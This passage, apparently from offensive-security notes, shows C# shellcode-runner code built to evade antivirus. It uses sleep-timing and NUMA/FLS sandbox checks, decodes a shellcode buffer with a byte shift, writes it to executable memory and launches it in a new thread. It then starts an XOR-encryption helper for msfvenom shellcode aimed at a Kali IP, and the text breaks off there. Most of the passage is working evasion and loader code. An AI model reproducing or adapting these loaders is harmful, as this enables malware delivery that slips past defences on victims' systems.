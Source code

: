```csharp
        {
            DateTime t1 = DateTime.Now;
            Sleep(2000);
            double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
            if (t2 < 1.5)
            {
                return;
            }

            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            if (mem == null)
            {
                return;
            }

            IntPtr flsindex = FlsAlloc(IntPtr.Zero);
            if (flsindex == null)
            {
                return;
            }

            byte[] buf = new byte[695] { <encrypted shellcode> };

            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
            }

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

### Use XOR operation

#### C Sharp

Use the `XOR` operation to create a different encryption routine

`helper.exe <Kali IP> <msfvenom-generated csharp shellcode file>`

```csharp
using System;
using System.Text;
using System.Net.Http;
using System.Text.RegularExpressions;

namespace Helper
{
    class Program
    {
        static void Main(string[] args)
        {
            // Check if a URL was provided
```